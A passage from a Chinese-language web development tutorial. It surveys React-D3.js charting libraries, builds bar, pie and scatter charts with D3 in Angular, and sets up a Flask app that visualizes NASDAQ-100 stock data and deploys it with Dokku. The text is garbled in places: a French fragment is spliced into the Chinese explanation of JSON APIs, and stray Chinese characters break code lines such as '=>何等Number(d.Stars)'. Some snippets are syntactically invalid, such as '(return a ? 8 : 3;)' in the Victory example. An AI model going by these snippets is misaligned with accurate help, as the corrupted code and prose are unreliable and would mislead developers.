令人惊讶的是，这种方法需要更深入地理解 D3.js，因为我们必须在底层级别与它的子模块进行交互。一些 D3.js 功能必须重新实现——坐标轴和形状是最常见的；刷选、缩放和拖拽可能是最困难的——这需要大量的前期工作。


所有的动画也都必须实现。尽管 React 生态系统有出色的动画管理工具（参见 react-transition-group、react-motion 和 react-move），但这些工具都不允许我们生成复杂的 SVG 路径插值。一个尚未解决的问题是如何使用这种策略来使用 HTML5 的 canvas 元素渲染图表。

下图描绘了所有描述的方法，这些方法是按照与 React 和 D3.js 的集成级别来组织的。

## 用于 REACT-D3.JS 的库

我们下面提到一些 D3.js-React 库：

```javascript
class LineChart extends React.Component {
    render() {
        return (
            <VictoryChart 
                height={400}
                width={400}
                containerComponent={<VictoryVoronoiContainer/>}
            >
                <VictoryGroup
                    labels={({ d }) => `${d.y}`}
                    labelComponent={
                        <VictoryTooltip style={{
                            fontSize: 10 
                        }} />
                    }
                    data={data}
                >
                    <VictoryLine/>
                    <VictoryScatter size={({ d, a }) => (return a ? 8 : 3;)} />
                </VictoryGroup>
            </VictoryChart>
        );
    }
}
```

### RECHARTS

Recharts 是我最喜欢的 React-D3.js 包之一，因为它设计精良，用户体验愉快，动画流畅，并且拥有美观的工具提示。Recharts 只使用 d3-scale、d3-interpolate 和 d3-shape 函数。它比 Victory 具有更高的粒度，限制了我们可以创建的数据可视化数量。

Recharts 的使用方式如下：

```javascript
class LineChart extends React.Component {
    render () {
        return (
            <LineChart
                width={400}
                height={200}
                data={data}
                margin={{top: 3, right: 30, left: 50, bottom: 7}}
            >
                <XAxis dataKey="name"/>
                <YAxis/>
                <CartesianGrid strokeDasharray="3 3"/>
                <Tooltip/>
                <Legend />
                <Line type="monotone" dataKey="pv" stroke="#8884d8" activeDot={{r: 8}}/>
                <Line type="monotone" dataKey="uv" stroke="#82ca9d" />
            </LineChart>
        );
    }
}
```

### NIVO

Nivo 是一个高级别的 React-D3.js 图表库。它提供多种渲染选择，包括 SVG、canvas 和基于 API 的 HTML 版图表，非常适合服务器端渲染。动画是使用 React Motion 制作的。

它的 API 有点不寻常，因为每个图表只有一个可修改的组件。考虑以下场景：

```javascript
class LineChart extends React.Component {
    render () {
        return (
            <ResponsiveLine
                data={data}
                margin={{
                  "top": 50,
                  "right": 110,
                  "bottom": 50,
                  "left": 60
                }}
                minY="auto"
                stacked={true}
                axisBottom={{
                  "orient": "bottom",
                  "tickSize": 5,
                  "tickPadding": 5,
                  "tickRotation": 0,
                  "legend": "country code",
                  "legendOffset": 36,
                  "legendPosition": "center"
                }}
                axisLeft={{
                  "orient": "left",
                  "tickSize": 5,
                  "tickPadding": 5,
                  "tickRotation": 0,
                  "legend": "count",
                  "legendOffset": -40,
                  "legendPosition": "center"
                }}
                dotSize={10}
                dotColor="inherit:darker(0.3)"
                dotBorderWidth={2}
                dotBorderColor="#ffffff"
                enableDotLabel={true}
                dotLabel="y"
                dotLabelYOffset={-12}
                animate={true}
                motionStiffness={90}
                motionDamping={15}
                legends={[
                  {
                    "anchor": "bottom-right",
                    "direction": "column",
                    "translateX": 100,
                    "itemWidth": 80,
                    "itemHeight": 20,
                    "symbolSize": 12,
                    "symbolShape": "circle"
                  }
                ]}
            />
        );
    }
}
```

### VX

VX 是一套低级别的可视化组件，可用于创建可视化效果。它是中立的，可以用来创建不同的图表库，也可以直接使用。

**语法：**

```javascript
class VXLineChart extends React.Component {
  render () {
    let {width, height, margin} = this.props;

    // bounds
    const xMax = width - margin.left - margin.right;
    const yMax = height - margin.top - margin.bottom;

    // scales
    const xScale = scaleTime({
      range: [0, xMax],
      domain: extent(data, x),
    });
    const yScale = scaleLinear({
      range: [yMax, 0],
      domain: [0, max(data, y)],
      nice: true,
    });

    return (
      <svg
        width={width}
        height={height}
      >
        <rect
            x={0}
            y={0}
            width={width}
            height={height}
            fill="white"
            rx={14}
        />
        <Group top={margin.top}>
            <LinePath
                data={data}
                xScale={xScale}
                yScale={yScale}
                x={x}
                y={y}
                stroke='#32deaa'
                strokeWidth={2}
            />
        </Group>
      </svg>
    );
  }
}
```

### BRITECHARTS REACT

这些库中唯一使用生命周期方法包装策略的是 Britecharts React，它仍处于测试阶段。它旨在通过构建代码包装器，使 Britecharts 可视化效果更容易在 React 中使用。

```javascript
class LineChart extends React.Component {
    render () {
        const margin = {
            top: 60,
            right: 30,
            bottom: 60,
            left: 70,
        };

        return (
            <TooltipComponent
                data={lineData.oneSet()}
                topicLabel="topics"
                title="Tooltip Title"
                render={(props) => (
                    <LineComponent
                        margin={margin}
                        lineCurve="basis"
                        {...props}
                    />
                )}
            />
        );
    }
}
```

## 选择方法或库

我们将创建图表时需要考虑的因素分为四类：质量、时间、范围和成本。我们应该简化，因为因素太多了。

假设我们提高质量。我们可能的目标是一个经过充分测试、更新到 D3.js 版本 4 并且有详尽文档的代码库。

考虑时间时，“这是一个长期投资吗？”是一个很好的问题。

考虑范围时，请思考您是否只需要几个基本图表、一个复杂的一次性表示，或者多个完全定制的可视化效果。在第一个例子中，我会 fork 最接近规格的库。对于具有许多动画或交互性的定制数据可视化，使用标准 D3.js 是最佳选择。最后，如果您计划采用具有特定标准的图表——可能是在 UX 人员和设计师的帮助下——最好是从头开始使用您的 D3 库，或者 fork 并定制现有的库。

最后，决策的**财务方面**涉及团队的预算和培训。您的团队具备哪些技能？如果您有 D3.js 开发人员，他们可能会喜欢 D3.js 和 React 之间有清晰的界限；因此，生命周期方法包装器方法将是理想的。然而，如果您的团队有 React 工程师，他们将乐于改进任何现有的 React-D3.js 模块。结合使用生命周期方法和 D3.js 示例也可能有效。我很少建议您自己构建 React-D3.js 库。所需的工作量很大，而且两个库的更新频率使得维护成本不菲。

## 关于 REACT 和 D3.JS 的最终思考

它们都是处理 DOM 及其问题的出色工具。它们无疑可以协同工作，而我们有能力决定它们之间的界限应该划在哪里。一个强大的库生态系统支持 D3.js。React-D3.js 也有许多引人入胜的选择，并且两种技术都在不断发展，因此结合两者的项目将难以跟上步伐。

选择会受到许多因素的影响，这些因素无法在一篇文章中全部解决。然而，我们涵盖了最重要的几点，让您能够做出明智的结论。

所以现在，让我们考虑一些可以与 D3.js 协作的其他框架。

## 使用 ANGULAR 的 D3.JS 数据可视化

随着越来越多的公司专注于收集和分析数据，产品团队面临的问题之一是以相关的方式呈现这些数据。虽然许多软件开发人员更喜欢列表和表格显示，但用户有时会觉得这些呈现方式令人不知所措。

D3.js 是目前最流行的库。它允许您基于动态数据操作 DOM 以构建数据可视化。D3 是响应式的，这意味着它使用 JavaScript 将 HTML 元素“绘制”到您的网页上，而不是在服务器上生成静态图像并将其传输给客户端。因此，D3 比其他图表库更强大，但也更具挑战性。

Angular 是一个流行的开源前端 Web 框架，由 Google 维护。

本节将展示如何使用 D3 向您的 Angular 应用程序添加数据可视化。我们将学习如何安装 Angular 和 D3，创建三种不同类型的图表，以及从第三方 API 或本地 CSV 文件输入数据。最后，我们将能够使用 D3 和 Angular 创建我们自己的数据可视化。


### ANGULAR 与 D3 的安装

要创建新的应用和组件，Angular 使用命令行接口。首先，你需要安装 Node.js 和 npm。如果你不熟悉 Angular，可以阅读本地安装指南来了解更多相关流程，或者跳过教程，直接从 GitHub 下载最终的应用程序。

首先安装 Angular CLI。这个命令行工具让你可以轻松开始新的 Angular 项目：

```
npm install -g @angular/cli
```

接下来创建一个新的 Angular 应用。你可以随意命名，我这里选择 angular-d3：

```
ng new angular-d3
```

最后，进入新项目：

```
cd angular-d3
```

然后，通过 npm 安装 D3 和 D3 的类型定义。类型声明可以让 TypeScript 为非 TypeScript 的 D3 代码添加类型提示。

```
npm install d3 && npm install @types/d3 --save-dev
```

使用 Angular CLI 创建三个新组件。在后续步骤中，我们将使用 D3 来创建数据可视化。

首先是柱状图：

```
ng g component bar
```

然后是饼图：

```
ng g component pie
```

最后是散点图：

```
ng g component scatter
```

这些组件现在已经位于 src/app/ 目录下，并且 Angular 已经将它们添加到了你的 app.module.ts 文件中，但你仍然需要使用它们的选择器来插入这些组件。将 src/app/app.component.html 文件的内容替换为以下内容：

```
<header>
    <h1> D3+ Angular </h1>
</header>
<app-bar></app-bar>
<app-pie></app-pie>
<app-scatter></app-scatter>
```

最后，你可以通过在 `<head>` 中加入 new.css 来美化你的网站外观。在 src/index.html 文件中，在 `<head>`/`</head>` 标签之间添加以下代码：

```
<link rel="stylesheet" href="https://fonts.xz.style/serve/inter.css">
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@exampledev/new.css@1.1.2/new.min.css">
```

现在你已经准备好进行测试了。在终端中运行 `ng serve –open`。如果你在浏览器中访问 http://localhost:4200，应该会看到类似这样的内容：

现在已经准备就绪，让我们在你的 Angular 应用中添加三种图表：柱状图、饼图和散点图。

### 制作柱状图

你的第一个数据可视化将是柱状图。柱状图通常用于显示多个数据类别的相对值。我们将使用各大前端 Web 开发框架获得的星标数量：

```
[
    {"Framework": "Vue",  "Stars": "166443", "Released": "2014"},
    {"Framework": "React",  "Stars": "150793", "Released": "2013"},
    {"Framework": "Angular",  "Stars": "62342", "Released": "2016"},
    {"Framework": "Backbone", "Stars": "27647", "Released": "2010"},
    {"Framework": "Ember", "Stars": "21471", "Released": "2011"}
]
```

一个 Angular 组件由四个文件组成：HTML 模板文件、CSS 或 SCSS 样式表文件、spec（测试）文件以及 TypeScript 组件文件。在模板文件（bar.component.html）中添加以下标题和 figure 元素：

```
<h2>Chart Type Bar</h2>
<figure id="Bar"></figure>
```

你将使用 CSS 选择器，通过 D3 将图表插入到 figure 元素中。接下来，打开 bar.component.ts TypeScript 组件文件，添加以下属性：

```
...
export class BarComponent implements OnInit {
  private data = [
    {"Framework": "Vue", "Stars": "166443", "Released": "2014"},
    {"Framework": "React", "Stars": "150793", "Released": "2013"},
    {"Framework": "Angular", "Stars": "62342", "Released": "2016"},
    {"Framework": "Backbone", "Stars": "27647", "Released": "2010"},
    {"Framework": "Ember", "Stars": "21471", "Released": "2011"},
  ];
  private SVG;
  private margin = 50;
  private width = 750 - (this.margin * 2);
  private height = 400 - (this.margin * 2);
...
```

第一个私有属性是 data，它硬编码了创建图表所需的数据。稍后你将学习如何使用来自文件或 API 的数据，但目前这样已经足够。

类的 SVG 字段将用于存储 D3 将在 DOM 上绘制的 SVG 图像。其他变量决定了图表的高度、宽度和边距。虽然使用 D3 可以创建响应式图表，但本教程不会涉及。

在 BarComponent 中创建一个名为 createSvg 的方法。该方法选择 DOM 元素并创建一个新的 SVG，其中包含 `<g>` 元素：

```
private createSvg(): void {
    this.SVG = d3.select("figure#bar")
        .append("SVG")
        .attr("width", this.width + (this.margin * 2))
        .attr("height", this.height + (this.margin * 2))
        .append("g")
        .attr("transform", "translate(" + this.margin
            + "," + this.margin + ")");
}
```

创建一个名为 drawBars() 的函数，它将使用 SVG 属性来添加柱状条：

```
private drawBars(data: any[]): void {
    // Create the X-axis band scale
    const x = d3.scaleBand()
        .range([0, this.width])
        .domain(data.map(d => d.Framework))
        .padding(0.2);

    // Draw the X-axis on the DOM
    this.SVG.append("g")
        .attr("transform", "translate(0," + this.height
            + ")")
        .call(d3.axisBottom(x))
        .selectAll("text")
        .attr("transform", "translate(-10,0)rotate(-45)")
        .style("text-anchor", "end");

    // Create the Y-axis band scale
    const y = d3.scaleLinear()
        .domain([0, 200000])
        .range([this.height, 0]);

    // Draw the Y-axis on the DOM
    this.SVG.append("g")
      .call(d3.axisLeft(y));

    // Create and fill the bars
    this.SVG.selectAll("bars")
      .data(data)
      .enter()
      .append("rect")
      .attr("x", d => x(d.Framework))
      .attr("y", d => y(d.Stars))
      .attr("width", x.bandwidth())
      .attr("height", (d) => this.height - y(d.Stars))
      .attr("fill", "#d04a35");
}
```

最后，在 `BarComponent` 的 `ngOnInit()` 方法中调用这两个方法：

```
ngOnInit(): void {
  this.createSvg();
  this.drawBars(this.data);
}
```

如果之前的 Angular 服务器已经停止，重新启动它（`ng serve`），然后访问 `localhost:4200`。

### 制作饼图

饼图是显示多个数据集相对价值的有效工具。在这个例子中，你将使用它来展示基于 GitHub 星标数的各大前端框架市场份额。

基本步骤是在组件的 HTML 文件（`pie.component.html`）中添加一个新的 figure 元素和标题：

```
<h2> Chart Type Pie </h2>
<figure id="Pie"></figure>
```

由于此图表使用与柱状图相同的数据集，组件类的初始部分看起来相似。在 `pie.component.ts` 文件中填入你的数据和以下私有属性：

```
...
export class PieComponent implements OnInit {
  private data = [
    {"Framework": "Vue", "Stars": "166443", "Released": "2014"},
    {"Framework": "React", "Stars": "150793", "Released": "2013"},
    {"Framework": "Angular", "Stars": "62342", "Released": "2016"},
    {"Framework": "Backbone", "Stars": "27647", "Released": "2010"},
    {"Framework": "Ember", "Stars": "21471", "Released": "2011"},
];
  private SVG;
  private margin = 51;
  private width = 751;
  private height = 601;
  //  pie chart has radius half the smallest side
  private radius = Math.min(this.width, this.height) / 2 - this.margin;
  private colors;
...
```

radius 和 colors 属性的添加会产生显著影响。由于饼图使用圆形而非矩形来展示数据，radius 属性确保图表适合所选 figure 元素的边界范围。在下一步中，你将使用 colors 来指定饼图的颜色。

之后创建一个名为 createSvg() 的私有方法。该方法选择 DOM 元素并添加 `<g>` 元素，D3 将在此处绘制你的饼图：

```
private createSvg(): void {
    this.SVG = d3.select("figure#pie")
    .append("Svg")
    .attr("width", this.width)
    .attr("height", this.height)
    .append("g")
    .attr(
      "transform",
      "translate(" + this.width / 2 + "," + this.height / 2 + ")"
    );
}
```


 在本例中，你将使用序数比例尺为饼图的每个区域生成离散的颜色。你可以将每个区域设为主要框架颜色，但我认为单色方案看起来更好。

```
private createColors(): void {
    this.colors = d3.scaleOrdinal()
    .domain(this.data.map(d => d.Stars.toString()))
    .range(["#c7d3ec", "#a5b8db", "#879cc4", "#677795", "#5a6782"]);
}
```

创建一个用于绘制图表并为其添加标签的方法。此方法使用 `path` 元素为每个框架创建弧形，并用 `createColors`围棋方法中定义的颜色填充它们。

```
private drawChart(): void {
    // Positioning each group on the pie:
    const pie = d3.pie<any>().value((d: any) =>何等Number(d.Stars));

    // Build the pie chart
    this.svg
    .selectAll('pieces')
    .data(pie(this.data))
    .enter()
    .append('path')
    .attr('d', d3.arc()
        .innerRadius(0)
        .outerRadius(this.radius)
    )
    .attr('fill', (d, i) => (this.colors(i)))
    .attr("stroke", "#121926")
    .style("stroke-width", "1px");

    // Add labels
    const labelLocation = d3.arc()
    .innerRadius(100)
    .outerRadius(this.radius);

    this.svg
    .selectAll('pieces')
    .data(pie(this.data))
    .enter()
    .append('text')
    .text(d => d.data.Framework)
    .attr("transform", d => "translate(" + labelLocation.centroid(d) + ")")
    .style("text-anchor", "middle")
    .style("font-size", 15);
}
```

D3 中的 `centroid` 函数允许你为每个扇形标签添加位置，它位于确定的质心位置。在此示例中，标签会稍微超出真实质心，因为设置了内半径（100）。你可以将这些数字重新定位到你认为最合适的位置。

最后，在 `ngOnInit()` 方法中调用这三个方法：

```
ngOnInit(): void {
    this.createSvg();
    this.createColors();
    this.drawChart();
}
```

返回浏览器查看你更新后的 Angular 应用程序饼图。

### 制作散点图

这是本课程中最后一种要制作的数据可视化类型。散点图让我们能够查看图上每个点所代表的两个数据集之间的关系。在此场景中，我们将考察每个框架发布年份与其当前获得的星数之间的关系。

首先，对 HTML 模板文件（`scatter.component.html`）进行以下修改：

```
<h2>Chart Type Scatter Plot</h2>
<figure id="scatter"></figure>
```

由于此散点图使用与柱状图相同的数据和图表尺寸，因此具有相同的属性：

```
...
export class ScatterComponent implements OnInit {
  private data = [
    {"Framework": "Vue", "Stars": "166443",
"Released": "2014"},
    {"Framework": "React", "Stars": "150793",
"Released": "2013"},
    {"Framework": "Angular", "Stars": "62342",
"Released": "2016"},
    {"Framework": "Backbone", "Stars": "27647",
"Released": "2010"},
    {"Framework": "Ember", "Stars": "21471",
"Released": "2011"},
  ];
  private svg;
  private margin = 50;
  private width = 750 - (this.margin * 2);
  private height = 400 - (this.margin * 2);
...
```

实际上，`createSvg` 方法与柱状图中的完全相同：

```
private createSvg(): void {
    this.svg = d3.select("figure#scatter")
    .append("svg")
    .attr("width", this.width + (this.margin * 2))
    .attr("height", this.height + (this.margin * 2))
    .append("g")
    .attr("transform", "translate(" + this.margin + "," + this.margin + ")");
}
```

如果你的项目中有很多具有相同属性的柱状图和散点图，你可能需要使用继承来减少重复代码。

创建一个新的 `drawPlot()` 方法来绘制图表的 x 轴和 y 轴，以及画布上的点。此方法为每个框架名称添加标签，并使点呈现半透明效果。

```
private drawPlot(): void {
    // Add X axis
    const x = d3.scaleLinear()
    .domain([2009, 2017])
    .range([ 0, this.width ]);
    this.svg.append("g")
    .attr("transform", "translate(0," + this.height
    + ")")
    .call(d3.axisBottom(x).tickFormat(d3.format("d")));
    
    // Add Y axis
    const y = d3.scaleLinear()
    .domain([0, 200000])
    .range([ this.height, 0]);
    this.svg.append("g")
    .call(d3.axisLeft(y));
    
    // Add dots
    const dots = this.svg.append('g');
    dots.selectAll("dot")
    .data(this.data)
    .enter()
    .append("circle")
    .attr("cx", d => x(d.Released))
    .attr("cy", d => y(d.Stars))
    .attr("r", 7)
    .style("opacity", .5)
    .style("fill", "#69b3a2");
    
    // Add labels
    dots.selectAll("text")
    .data(this.data)
    .enter()
    .append("text")
    .text(d => d.Framework)
    .attr("x", d => x(d.Released))
    .attr("y", d => y(d.Stars))
}
```

散点图的另一个重要区别是 x 轴基于日期而非字符串（如柱状图中所示）。因此，你必须调用 `.tickFormat(d3.format("d"))` 来正确格式化它们。

最后，从你的 `ngOnInit()` 方法中调用这两个方法：

```
ngOnInit(): void {
    this.createSvg();
    this.drawPlot();
}
```

### 从外部来源加载数据

你硬编码了 Angular 组件中的数据，但这可能不是个好主意。在 D3 中有多种从外部来源加载数据的方法，让我们看看两种最常见的模式。

#### 加载 CSV 文件

CSV 文件可以从几乎任何电子表格中导出。CSV 是一种基于文本的数据存储格式，使用逗号和换行符分隔文件中的值。由于 CSV 是一种广泛使用的数据格式，D3 原生支持加载公开可用的 CSV 文件。

为了演示使用 CSV 文件，在你的 Angular 应用程序的 `src/assets/` 目录中创建 `frameworks.csv` 文件。向文件中添加以下文本：

```
Framework,Stars,Released
Vue,166443,2014
React,150793,2013
Angular,62342,2016
Backbone,27647,2010
Ember,21471,2011
```

接下来，打开 `bar.component.ts` 并更新 `ngOnInit()` 方法以调用 D3 的 `csv()` 方法：

```
ngOnInit() : void {
    this.createSvg();
    // Parse data from a CSV
    d3.csv("/assets/frameworks.csv").then(data => this.drawBars(data));
}
```

D3 可以从你的 Angular 应用程序或第三方 URL 加载 CSV 文件，并在 promise 中将数据返回为对象数组。返回浏览器，你会看到与之前相同的柱状图，但这次数据来自 `frameworks.csv` 文件，而非 Angular 组件。

#### 使用 JSON API 获取数据

JSON nationality nécessitant un token API REST et GraphQL renvoient souvent le JSON, une représentation sous forme de chaîne d'objets JavaScript. D3 prend en charge les données JSON nativement, ce qui facilite leur intégration dans votre application Angular.

你将需要一个 JSON API 端点或文件来开始。JSONbin，一个免费的 JSON 文件托管平台，托管了本课程中使用的框架数据。这些信息可在这里获取。

要使用此端点，重新打开 `bar.component.ts` 文件并在 `ngOnInit()` 方法中添加以下内容：

```
ngOnInit(): void {
    this.createSvg();
    // Fetch JSON from an external endpoint
    d3.json('https://api.jsonbin.io/b/5eee6a5397cb753b4d149343').then(data => this.drawBars(data));
}
```

与 CSV 示例类似，D3 的 JSON 方法返回一个 promise，其中包含解析为对象数组的数据。通过提供此数据，你的柱状图现在可以将 JSON API 端点作为其数据源。

D3 是在 Angular 应用程序中创建复杂数据可视化的绝佳选择。D3 是一个强大的数据可视化工具，可以生成几乎你能想象的任何数据可视化。它还使从 CSV 文件或 JSON API 访问数据集变得简单。

如果你想了解更多关于自定义柱状图的信息，我建议查看官方文档或 D3 图形库以获取更多示例。

## 全栈开发——数据提取、D3 可视化和 Dokku 部署

我们将使用 D3 创建一个 Web 应用程序，从 NASDAQ-100 获取数据并将其可视化为气泡图。最后，我们将使用 Dokku 将其部署到 Digital Ocean。

本课程使用的版本：Python 2.7.8、Flask 0.10.1、Requests 2.4.1、D3 3.4.11、Dokku 0.2.3 和 Bower v1.3.9。

首先，在此仓库中找到并下载 `_app_boilerplate.zip` 文件。此文件包含 Flask 样板。下载文件和文件夹后，激活 virtualenv 并使用 pip 安装依赖项：

```
Python:
pip install -r requirements.txt
```


然后检查它是否有效：启动服务器，然后在浏览器中访问 http://localhost:5000/。你应该能看到“Hello, world!”在页面上显示。

### 获取信息

在 app.py 文件中，创建一个新的路由和视图函数：

```python
@app.route("/data")
def data():
    return jsonify(get_data())
```

导入语句需要更新：

```python
from flask import Flask, render_template, jsonify
from stock_scraper import get_data
```

当路由被调用时，它会在返回之前将 `get_data()` 函数的返回值转换为 JSON 格式。该函数位于 `stock_scraper.py` 文件中，用于从纳斯达克-100指数中检索数据。

将 `stock_scraper.py` 脚本添加到主目录。

现在轮到你了：按照以下步骤创建你的脚本：

- 从 http://www.nasdaq.com/quotes/nasdaq-100-stocks.aspx?render=download 获取 CSV 文件。
- 从 CSV 中提取以下信息：公司名称、股票代码、当前价格、净变动、百分比变动、成交量和市值。
- 从解析后的数据创建一个 Python 字典。
- 返回该字典。

发生了什么？需要帮助吗？考虑以下场景：

```python
import csv
import requests

URL = "http://www.nasdaq.com/quotes/nasdaq-100-stocks.aspx?render=download"

def get_data():
    r = requests.get(URL)
    data = r.text
    RESULTS = {'children': []}
    for line in csv.DictReader(data.splitlines(),
                                skipinitialspace=True):
        RESULTS['children'].append({
            'name': line['Name'],
            'symbol': line['Symbol'],
            'price': line['lastsale'],
            'net_change': line['netchange'],
            'percent_change': line['pctchange'],
            'volume': line['share_volume'],
            'value': line['Nasdaq100_points']
        })
    return RESULTS
```

### 这是怎么回事？

我们使用 GET 请求获取 URL，然后将 Response 对象 `r` 转换为 Unicode 字符串。

然后，使用 CSV 库将逗号分隔的文本转换为 `DictReader()` 类的一个实例，该实例会返回字典而不是列表。

最后，在遍历数据并构建字典列表（每个字典代表一支特定股票）后，我们返回 RESULTS 字典。

### 测试时间

启动服务器后，访问 http://localhost:5000/data。如果一切正常，你应该能看到一个包含所需股票数据的对象。

现在我们有了数据，可以开始在前端对其进行可视化了。

### 可视化

除了 HTML 和 CSS，我们还将使用 Bootstrap、JavaScript/jQuery 和 D3 来驱动我们的前端。我们还将使用 Bower（一个客户端依赖管理工具）来下载和管理这些库。

现在，你的任务是按照安装说明在你的机器上设置 Bower。在安装 Bower 之前，你必须先安装 Node.js。

准备好了吗？

#### BOWER

Bower 需要两个文件才能开始：`bower.json` 和 `.bowerrc`。

后者文件用于配置 Bower。它应该放在主目录下：

```json
{
  "directory": "static/bower_components"
}
```

这仅仅表示依赖项应该放在应用 `static` 目录下的 `bower_components` 目录中（按约定）。

同时，第一个文件 `bower.json` 包含 Bower 清单，其中包含有关 Bower 组件和应用程序本身的信息。要交互式地创建该文件，请使用 `bower init` 命令。现在就执行它吧。接受默认设置。

#### HTML

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Flask Stock Visualizer</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link href="{{url_for('static', filename='./bower_components/bootstrap/dist/css/bootstrap.min.css') }}" rel="stylesheet" media="screen">
    <link href="{{ url_for('static', filename='main.css') }}" rel="stylesheet" media="screen">
  </head>
  <body>
    <div class="container">
    </div>
    <script src="{{ url_for('static', filename='./bower_components/jquery/dist/jquery.min.js') }}"></script>
    <script src="{{ url_for('static', filename='./bower_components/bootstrap/dist/js/bootstrap.min.js') }}"></script>
    <script src="{{ url_for('static', filename='./bower_components/d3/d3.min.js') }}"></script>
    <script src="{{ url_for('static', filename='main.js') }}"></script>
  </body>
</html>
```

#### D3

在众多数据可视化框架中，为什么选择 D3？因为 D3 是一种低级语言，你可以创建任何你想要的框架。将数据附加到 DOM 后，你通过结合 CSS3、HTML5 和 SVG 来生成可视化。然后，利用 D3 内置的数据驱动转换功能，你可以添加交互性。

公平地说，并非所有人都喜欢这个库。学习曲线非常陡峭，因为你拥有极大的自由度来构建任何你想要的东西。如果你想快速上手，Python-NVD3 是一个 D3 的封装库，它使得使用 D3 变得容易得多。然而，在本课程中我们不需要它，因为 Python-NVD3 没有提供同等水平的低级、快速自定义趋势和极致可视化能力。

让我们开始编码。

#### 设置

在 `main.js` 中，添加以下代码：

```javascript
// Custom JavaScript
$(function() {
  console.log('jquery is working!');
  createGraph();
});

function createGraph() {
  // Code goes here
}
```

页面首次加载后，我们会在控制台输出 "jquery is working!"，然后调用 `createGraph` 函数。试试看。启动服务器，然后访问 http://localhost:5000/ 并使用 JavaScript 控制台刷新页面。如果一切顺利，应该会显示文本 "jquery is working!"。

为了容纳 D3 气泡图，以下标签将被添加到 `index.html` 页面中 `id` 为 `individual` 的 `<div>` 元素下：

```html
<div id="chart"></div>
```

#### 主要配置

在 `main.js` 中，向 `createGraph()` 函数添加以下代码：

```javascript
var width = 960; // chart width
var height = 700; // chart height
var format = d3.format(",d");  // conversion of value to integer
var color = d3.scale.category20();  // create ordinal scale with 20 colors
var sizeOfRadius = d3.scale.pow().domain([-200,100]).range([-50,50]);  // https://github.com/mbostock/d3/wiki/Quantitative-Scales#pow
```

关于解释，请参考代码注释以及官方 D3 文档。查找任何你不确定的地方。程序员必须能够自给自足！

#### 气泡配置

```javascript
var bubble = d3.layout.pack()
    .sort(null)  // disable sorting, use DOM tree traversal
    .size([width, height])  // chart layout size
    .padding(1)  // padding between circles
    .radius(function(d) { return 28 + (sizeOfRadius(d) * 35); });  // radius for each circle
```

再次将上述代码添加到 `createGraph()` 函数中，如有问题请查阅文档。

#### SVG 配置

向 `createGraph()` 添加以下代码，该代码选择 `id` 为 `chart` 的组件，并附加圆圈以及一组参数：

```javascript
var SVG = d3.select("#chart").append("svg")
  .attr("width", width)
  .attr("height", height)
  .attr("class", "bubble");
```

我们将继续编写 `createGraph()` 函数，通过异步方式获取数据，D3 允许我们这样做。

##### Javascript 语法：

```javascript
// REQUEST THE DATA
d3.json("/data", function (error, quotes) {
  var node = SVG.selectAll('.node')
    .data(bubble.nodes(quotes)
      .filter(function(d) { return !d.children; }))
    .enter().append('g')
      .attr('class', 'node')
      .attr('transform', function(d) { return 
      'translate(' + d.x + ',' + d.y + ')';});

  node.append('circle')
    .attr('r', function(d) { return d.r; })
    .style('fill', function(d) { return color(d.symbol); });

  node.append('text')
    .attr("dy", ".3em")
    .style('text-anchor', 'middle')
    .text (function(d) { return d.symbol; });
});
```

所以，为了返回数据，我们使用了之前设置的 `/data` 端点。剩余的代码只是用气泡和文本填充 DOM。这是一段针对我们的数据进行了显著调整的样板代码。


#### 工具提示 (Tooltips)

由于图表上的区域有限，我们将使用 `createGraph()` 函数来添加一些包含每只股票更多信息的工具提示。

##### Javascript 语法：

```javascript
// tooltip config
var tooltip = d3.select("body")
    .append("div")
    .style("position", "absolute")
    .style("z-index", "10")
    .style("visibility", "hidden")
    .style("color", "white")
    .style("padding", "8px")
    .style("background-color", "rgba(1, 1, 1, 0.85)")
    .style("border-radius", "6px")
    .style("font", "12px sans-serif")
    .text("tooltip");
```

这些仅仅是与工具提示相关的 CSS 样式。实际的数据仍然需要输入。请更新将圆圈添加到 DOM 的代码部分：

##### Javascript 语法：

```javascript
node.append("circle")
    .attr("r", function(d) { return d.r; })
    .style('fill', function(d) { return color(d.symbol); })

    .on("mouseover", function(d) {
        tooltip.text(d.name + ": $" + d.price);
        tooltip.style("visibility", "visible");
    })
    .on("mousemove", function() {
        return tooltip.style("top", (d3.event.pageY-10)+"px").style("left",(d3.event.pageX+10)+"px");
    })
    .on("mouseout", function(){return tooltip.style("visibility", "hidden");});
```

访问 http://localhost:5000/ 了解更多信息。当您将鼠标悬停在圆圈上时，会出现一些底层的元数据，例如公司名称和股票价格。

现在轮到您来添加一些元数据了。您认为哪些进一步的信息是重要的？考虑到我们在这里展示的内容：相对价格变化。您可能需要计算先前价格并显示：

- 当前价格
- 比例变化
- 之前的成本

重构：股票。如果我们只想在 NASDAQ-100 Points 列中看到经过修正的市场价值权重指数大于 .01 的股票怎么办？

为了在 `data()` 函数中实现这一点，请添加一个条件判断：

##### Python 语法：

```python
def get_data():
    r = requests.get(URL)
    data = r.text
    RESULTS = {'children': []}
    for line in csv.DictReader(data.splitlines(),
        skipinitialspace=True):
        if float(line['Nasdaq100_points']) > .01:
            RESULTS['children'].append({
                'name': line['Name'],
                'symbol': line['Symbol'],
                'price': line['lastsale'],
                'net_change': line['netchange'],
                'percent_change': line['pctchange'],
                'volume': line['share_volume'],
                'value': line['Nasdaq100_points']
            })
    return RESULTS
```

现在，在 `main.js` 的气泡配置部分，让我们增加每个气泡的半径；相应地编辑代码：

##### Javascript 语法：

```javascript
// Radius for each circle
.radius(function(d) { return 28 + (sizeofRadius(d) * 80) });
```

#### CSS

最后，让我们为主体添加一些基础样式。

**CSS 语法 (CSS)：**

```css
body {
    padding-top: 20px;
    font: 12px sans-serif;
    font-weight: bold;
}
```

### 部署 (DEPLOYING)

Dokku 是一个开源的 PaaS，其工作方式与 Heroku 类似，并由 Docker 驱动。

一旦设置完成，可以使用 Git 来推送应用程序。

我们的托管提供商是 Digital Ocean。让我们开始吧。

配置 Digital Ocean：如果您还没有账户，请设置 Digital Ocean 并创建一个。然后，按照此指南添加公钥。

通过为其命名、选择尺寸和位置来创建一个新的 Droplet。在“Applications”选项卡中选择 Dokku 应用程序以获取图标。确保已选择您的 SSH 密钥。

在浏览器中输入新创建的 Droplet 的 IP 地址，进入 Dokku 设置页面以完成配置。在仔细检查公钥正确后，点击“Finish Setup”。

现在 VPS 可以接受推送了。

配置部署：

- 1. 在 Procfile 中写入以下代码：`gunicorn app:app`。（该文件包含了启动 Web 进程必须执行的命令。）
